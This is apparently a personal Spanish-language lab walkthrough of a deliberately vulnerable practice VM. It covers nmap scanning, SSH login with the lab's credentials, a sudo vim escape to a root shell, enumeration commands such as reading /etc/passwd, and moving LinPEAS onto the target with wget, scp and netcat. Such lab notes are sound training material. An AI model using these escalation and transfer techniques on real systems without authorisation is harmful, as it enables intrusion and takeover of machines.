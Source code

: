 Parte de [[Maquinas]]

Pensada para practicar escalada de privilegios y la transferencia de ficheros.

Iniciamos un arpsweep para ver la IP:

``` java
sudo nmap -sn 192.168.56.100/24 -oN arpsweep.txt
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-18 18:42 CET
Nmap scan report for 192.168.56.1
Host is up (0.00018s latency).
MAC Address: 0A:00:27:00:00:00 (Unknown)
Nmap scan report for 192.168.56.10
Host is up (0.000087s latency).
MAC Address: 08:00:27:71:A9:96 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.56.202
Host is up (0.00023s latency).
MAC Address: 08:00:27:38:B1:F9 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.56.100
Host is up.
Nmap done: 256 IP addresses (4 hosts up) scanned in 2.00 seconds
```

Y lanzamos un portscan:

``` java
sudo nmap -sS -T4 -p- 192.168.56.202 -oN portscan.txt
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-18 18:43 CET
Nmap scan report for 192.168.56.202
Host is up (0.000087s latency).
Not shown: 65526 closed tcp ports (reset)
PORT      STATE SERVICE
22/tcp    open  ssh
25/tcp    open  smtp
80/tcp    open  http
111/tcp   open  rpcbind
2049/tcp  open  nfs
8080/tcp  open  http-proxy
36097/tcp open  unknown
37514/tcp open  unknown
41308/tcp open  unknown
MAC Address: 08:00:27:38:B1:F9 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 1.75 seconds
```

El escaneo de puertos:

``` java
❯ sudo nmap -A -sS -T4 -p 22,25,80,111,2049,8080,36097,37514,41308 192.168.56.202 -oN service_scan.txt
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-18 19:40 CET
Nmap scan report for 192.168.56.202
Host is up (0.00099s latency).

PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 5.5p1 Debian 6+squeeze5 (protocol 2.0)
| ssh-hostkey: 
|   1024 a4:6c:d1:c8:5b:03:f2:af:33:3f:84:15:cf:15:ed:ba (DSA)
|_  2048 08:84:3e:96:4d:9a:2f:a1:db:be:68:29:80:ab:f3:56 (RSA)
25/tcp    open  smtp     Exim smtpd 4.84
| smtp-commands: debian.localdomain Hello nmap.scanme.org [192.168.56.100], SIZE 52428800, 8BITMIME, PIPELINING, HELP
|_ Commands supported: AUTH HELO EHLO MAIL RCPT DATA NOOP QUIT RSET HELP
80/tcp    open  http     Apache httpd 2.2.16 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.2.16 (Debian)
111/tcp   open  rpcbind  2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/udp   nfs
|   100005  1,2,3      41308/tcp   mountd
|   100005  1,2,3      59934/udp   mountd
|   100021  1,3,4      36097/tcp   nlockmgr
|   100021  1,3,4      50041/udp   nlockmgr
|   100024  1          37514/tcp   status
|_  100024  1          56819/udp   status
2049/tcp  open  nfs      2-4 (RPC #100003)
8080/tcp  open  http     nginx 1.6.2
|_http-title: Welcome to nginx on Debian!
|_http-server-header: nginx/1.6.2
|_http-open-proxy: Proxy might be redirecting requests
36097/tcp open  nlockmgr 1-4 (RPC #100021)
37514/tcp open  status   1 (RPC #100024)
41308/tcp open  mountd   1-3 (RPC #100005)
MAC Address: 08:00:27:38:B1:F9 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6.32
OS details: Linux 2.6.32
Network Distance: 1 hop
Service Info: Host: debian.localdomain; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.99 ms 192.168.56.202

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.95 seconds
```

Tenemos las credenciales de SSH para empezar a trabajar:

Hay dos usuarios user:password321 y root:password123

``` java
❯ ssh user@192.168.56.202
The authenticity of host '192.168.56.202 (192.168.56.202)' can't be established.
RSA key fingerprint is SHA256:JwwPVfqC+8LPQda0B9wFLZzXCXcoAho6s8wYGjktAnk.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.56.202' (RSA) to the list of known hosts.
user@192.168.56.202's password: 
Linux debian 2.6.32-5-amd64 #1 SMP Tue May 13 16:34:35 UTC 2014 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Feb 21 07:35:58 2024
user@debian:~$ 
user@debian:~$ 
user@debian:~$ ls
backups  myvpn.ovpn  tools
user@debian:~$ sudo -l
Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH

User user may run the following commands on this host:
    (root) NOPASSWD: /bin/cat
    (root) NOPASSWD: /usr/sbin/iftop
    (root) NOPASSWD: /usr/bin/find
    (root) NOPASSWD: /usr/bin/nano
    (root) NOPASSWD: /usr/bin/vim
    (root) NOPASSWD: /usr/bin/man
    (root) NOPASSWD: /usr/bin/awk
    (root) NOPASSWD: /usr/bin/less
    (root) NOPASSWD: /usr/bin/ftp
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/sbin/apache2
    (root) NOPASSWD: /bin/more
    (root) NOPASSWD: /usr/bin/ssh
    (root) NOPASSWD: /usr/sbin/nginx
    (root) SETENV: NOPASSWD: /usr/local/bin/network.sh
    (ALL, !root) NOPASSWD: ALL
```

Hay cientos de metodos de escalada por lo que vemos.

Por ejemplo con Vim y GTFOBins, vemos que mediante

``` java
sudo vim -c ':!/bin/sh'
```

Somos root.

---

La parte mas importante de la escalada de privilegios es la enumeracion:

```
whoami
id
pwd
ls -lahF
lf -lhF /home
cat /etc/passwd
sudo -l
crontab -l
cat /etc/crontab
cat /etc/issue
lsb_release -a
cat /etc/*-release
uname -a
cat /proc/version
ps aux
ps -ef
ps -ef --forest
ps axjf
dpkg -l
find / -type f -perm 0777
find / -type f -perm +111
etc...
```

Esto se puede automatizar como por ejemplo mediante linpeass

---

## Transferencia de ficheros

En esta maquina LinPEAS ya esta en /tools, pero podemos subilar tambien mediante transferencia de ficheros, por ejemplo mediante HTTP con python.

En Kali:

``` java
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.56.202 - - [18/Mar/2025 19:12:21] "GET /linpeas.sh HTTP/1.0" 200 -
```

En LPEP:

``` java
user@debian:~$ wget http://192.168.56.100/linpeas.sh
--2025-03-18 15:12:21--  http://192.168.56.100/linpeas.sh
Connecting to 192.168.56.100:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 840082 (820K) [text/x-sh]
Saving to: “linpeas.sh”

100%[================================================================================>] 840,082     --.-K/s   in 0.01s   

2025-03-18 15:12:21 (76.3 MB/s) - “linpeas.sh” saved [840082/840082]

user@debian:~$ 
```

Otra opcion tipica seria tambien por ejemplo mediante scp:

``` java
scp linpeas.sh user@192.168.56.202:/home/user/
```

(No haria falta poner /home/user ya que la ruta defectiva es ~)

Tambien podriamos emplear netcat

Desde debian:

``` java
nc -nlvp 4444 > linpeas.sh
```

Y desde Kali:

```
nc 192.168.56.202 4444 < linpeas.sh 
```

Muchas veces no hay detach automatico, asi que habra que estimar cuando termina la transferencia.

O a la inversa, desde kali:

``` java
ncat -lnvp 4444 < linpeas.sh
```

Y al conectarnos desde debian:

``` java
nc 192.168.56.100 4444 > linpeas.sh
```

Hay mas informacion sobre transferencias de ficheros en GTFOBins y en HackTricks

---

ver [[Escalada de Privilegios]] para explicacion.



